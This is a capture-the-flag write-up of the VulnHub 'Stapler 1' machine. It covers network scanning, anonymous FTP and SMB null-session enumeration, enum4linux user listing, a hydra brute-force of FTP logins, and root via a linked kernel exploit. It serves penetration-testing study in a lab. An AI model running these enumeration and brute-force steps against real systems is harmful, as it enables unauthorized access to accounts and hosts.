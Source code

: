 ```yaml
---
layout: post
title: test
date: 2019-10-24
author: th3-3inst3in
comments: true
categories: vulnhub
tags: [ctf,vulnhub]
---
```


## Stapler 1 vulnhub

After configuring the Stapler VM first step is to find out its IP.We simply do that by running net discover 

```bash
root@kali$: netdisover -r 192.168.2.0/24

 Currently scanning: Finished!   |   Screen View: Unique Hosts                                                                                                                          
                                                                                                                                                                                        
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240                                                                                                                        
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.2.1     00:50:56:c0:00:08      1      60  VMware, Inc.                                                                                                                         
 192.168.2.2     00:50:56:ed:3a:6d      1      60  VMware, Inc.                                                                                                                         
 192.168.2.7     00:0c:29:03:c5:77      1      60  VMware, Inc.                                                                                                                         
 192.168.2.254   00:50:56:e6:7a:fe      1      60  VMware, Inc.                                                                                                                         
```

So we have our target ip **192.168.2.7**

Run dirsearch and nmap on it and meanwhile browse the site to check if you find anything interesting on the web interface.
Unfortunately there wasn't anything interesting found while browsing the site just one error page . 

Dirsearch also didn't yeild any thing worth checking.

#### Nmap results

```bash
 nmap -sV 192.168.2.7                                                                                                                                                 [20/20]
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-14 06:14 EDT                                                                                                                          
Nmap scan report for 192.168.2.7                                                                                                                                                         
Host is up (0.00032s latency).                                                                                                                                                           
Not shown: 992 filtered ports                                                                                                                                                            
PORT     STATE  SERVICE     VERSION                                                                                                                                                      
20/tcp   closed ftp-data                                                                                                                                                                 
21/tcp   open   ftp         vsftpd 2.0.8 or later                                                                                                                                        
22/tcp   open   ssh         OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)                                                                                                          
53/tcp   open   domain      dnsmasq 2.75                                                                                                                                                 
80/tcp   open   http        PHP cli server 5.5 or later                                                                                                                                  
139/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                                                                                                                  
666/tcp  open   doom?                                                                                                                                                                    
3306/tcp open   mysql       MySQL 5.7.12-0ubuntu1  

```

Lets start enumerating.

First I checked ftp anonymous login.

```bash

root@kali:~# ftp 192.168.2.7
Connected to 192.168.2.7.
220-
220-|-----------------------------------------------------------------------------------------|
220-| Harry, make sure to update the banner when you get a chance to show who has access here |
220-|-----------------------------------------------------------------------------------------|
220-
220 
Name (192.168.2.7:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             107 Jun 03  2016 note
226 Directory send OK.
ftp> get note
local: note remote: note
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note (107 bytes).
226 Transfer complete.
107 bytes received in 0.00 secs (577.3049 kB/s)
ftp> exit
221 Goodbye.
root@kali:~# cat note 
Elly, make sure you update the payload information. Leave it in your FTP account once your are done, John.
root@kali:~# 

```

Even though the anonymous login was enable we couldn't find anything interesting except 2 names which could possibiliy be used later.

The next thing that strikes me is the netbios service lets enumerate that.For beginners use [this resource](https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/).


I am going to use _smbclient_ . For the password I just pressed enter i.e a  Null login.

```bash
root@kali:~# smbclient -L 192.168.2.7
Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        kathy           Disk      Fred, What are we doing here?
        tmp             Disk      All temporary files should be stored here
        IPC$            IPC       IPC Service (red server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            RED
root@kali:~# 

```

After going though all the files I only found one wordpress directory but I didn't see any wordpress running on the web server , I probably might have missed it ( I made a mental note to go back and check it) . The second reason for ignoring the wordpress directory is that there was no config file in it.

Next I ran enum4linux

```bash

..[snip]..
S-1-22-1-1000 Unix User\peter (Local User)
S-1-22-1-1001 Unix User\RNunemaker (Local User)
S-1-22-1-1002 Unix User\ETollefson (Local User)
S-1-22-1-1003 Unix User\DSwanger (Local User)
S-1-22-1-1004 Unix User\AParnell (Local User)
S-1-22-1-1005 Unix User\SHayslett (Local User)
S-1-22-1-1006 Unix User\MBassin (Local User)
S-1-22-1-1007 Unix User\JBare (Local User)
S-1-22-1-1008 Unix User\LSolum (Local User)
S-1-22-1-1009 Unix User\IChadwick (Local User)
S-1-22-1-1010 Unix User\MFrei (Local User)
S-1-22-1-1011 Unix User\SStroud (Local User)
S-1-22-1-1012 Unix User\CCeaser (Local User)
S-1-22-1-1013 Unix User\JKanode (Local User)
S-1-22-1-1014 Unix User\CJoo (Local User)
S-1-22-1-1015 Unix User\Eeth (Local User)
S-1-22-1-1016 Unix User\LSolum2 (Local User)
S-1-22-1-1017 Unix User\JLipps (Local User)
S-1-22-1-1018 Unix User\jamie (Local User)
S-1-22-1-1019 Unix User\Sam (Local User)
S-1-22-1-1020 Unix User\Drew (Local User)
S-1-22-1-1021 Unix User\jess (Local User)
S-1-22-1-1022 Unix User\SHAY (Local User)
S-1-22-1-1023 Unix User\Taylor (Local User)
S-1-22-1-1024 Unix User\mel (Local User)
S-1-22-1-1025 Unix User\kai (Local User)
S-1-22-1-1026 Unix User\zoe (Local User)
S-1-22-1-1027 Unix User\NATHAN (Local User)
S-1-22-1-1028 Unix User\www (Local User)
S-1-22-1-1029 Unix User\elly (Local User)

```
These are list of usernames that were enumerated I thought to use this to bruteforce login creds for ftp.

_a little cut magic_

```bash

root@kali:/tmp# cat users.txt | cut -d'\' -f2 | cut -d' ' -f 1
peter
RNunemaker
ETollefson
DSwanger
AParnell
SHayslett
MBassin
JBare
LSolum
IChadwick
MFrei
SStroud
CCeaser
JKanode
CJoo
Eeth
LSolum2
JLipps
jamie
Sam
Drew
jess
SHAY
Taylor
mel
kai
zoe
NATHAN
www
elly
```

Running _hydra_

```bash
hydra -U users.txt -P users.txt -t 5 192.168.2.7 ftp

```

![hydra result]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/stapler/hydra.png)

Loging in with those creds in to the ftp I land in the home directory of the user and upon listing the files of the user I saw that there were too many files going though all of them would require alot of tile , this made me think that I am on the wrong path most likely I still went ahead and copied the name of the files and did some quick greping on it to find something like ssh or password or similar but no seed. 

After a long pause I tried the same credentials found for ftp on ssh and voila ! (sometimes thats just how ctfs are)

![ssh]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/stapler/ssh.png)

I opted for the shortest path to get root 


```bash
$ uname -a
Linux red.initech 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux
```

After searching Local explotis for the specific linux kernal and trying alot of them ( almost gave up on trying to find more exploits ) I finally came accross the following exploit.

_https://www.exploit-db.com/exploits/39772_

Ran the exploit and voila!!

![Root Shel]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/stapler/root-shell.png)